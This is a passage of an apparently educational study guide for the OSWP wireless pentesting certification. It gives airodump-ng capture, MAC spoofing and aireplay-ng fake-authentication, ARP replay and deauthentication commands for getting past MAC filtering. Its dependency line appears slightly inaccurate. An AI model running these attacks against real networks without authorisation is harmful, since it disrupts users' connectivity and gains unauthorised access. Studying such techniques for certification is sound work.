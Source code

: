 # Chapter 0.5 - Quick Cheat Sheet

# OSWP-Study-Guide
Study guide and command sheet for Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP)

## Dependencies
In order to run the following commands, install these frameworks first:
```bash
sudo apt install airmon-ng reaver hashcat hostapd dnsmasq nftables apache2 libapache2-mod-php freeradius
```

## Open Network with MAC filtering
In the event that fake authentication persistently fails, it is plausible that MAC address filtering is being employed. Under such a scheme, the Access Point (AP) will only permit connections from a predefined list of MAC addresses. Should this be the scenario, it will be necessary to acquire a legitimate MAC address by monitoring network traffic with the aid of Airodump-ng. Subsequently, impersonation of this MAC address should be carried out once the corresponding client has disconnected from the network. It is imperative to refrain from initiating a fake authentication attack targeting a specific MAC address if the client remains active on the AP.

### Packet capture
```bash
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>

airodump-ng --band abg wlan0mon # This checks 2.4 & 5GHz 
```
### Get your MAC address
```bash
macchanger --show <INTERFACE>
```

### Fake authentication attack
```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```

### ARP replay attack
```bash
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>
```

### Deauthentication attack
```bash
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>
```
